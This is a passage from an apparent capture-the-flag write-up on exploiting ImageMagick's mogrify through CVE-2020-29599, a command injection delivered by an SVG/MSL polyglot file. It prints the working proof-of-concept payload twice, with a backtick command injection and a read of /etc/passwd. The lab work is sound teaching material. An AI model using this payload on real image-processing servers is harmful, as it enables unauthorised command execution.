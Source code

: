 
Goolging for “mogrify CVE” doesn’t find much interesting, but searching for
“imagemagick 7.0.10-36 exploit” finds many posts talking about XML injection,
[CVE-2020-29599](https://www.cybersecurity-help.cz/vdb/SB2020121303).

### mogrify Command Injection

#### Background

It was a bit trickier to find, but [this post](https://insert-
script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) has all
the details of this exploit. The author creates a SVG/MSL [polyglot
file](https://medium.com/swlh/polyglot-files-a-hackers-best-
friend-850bf812dd8a). A polyglot is a file that is valid for two different
file specifications (I have found memories of [HackVent 2020 day
20](/hackvent2020/leet#hv2020), where I was given a file that was both valid
HTML and valid PNG).

In this case, it’s valid as both a scalable vector graphic (SVG) file and a
ImageMagick Scripting Language (MSL) file. The POC is:

    
    
    <image authenticate='ff" `echo $(id)> ./0wned`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
      <image xlink:href="msl:poc.svg" height="100" width="100"/>
      </svg>
    </image>
    

There’s a command injection in backticks in the first line.

#### POC

To test if this works, I’ll change the payload slightly to output a file in
`/dev/shm` (to not make a mess of the web folder):

    
    
    <image authenticate='ff" `echo $(id)> /dev/shm/.0xdf`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
      <image xlink:href="msl:poc.svg" height="100" width="100"/>
      </svg>
    </image>
    

It’s also important to note that the third to last line has a reference back
to the file, `poc.svg`. I’ll need to call it that on Meta, or the exploit
won’t work.
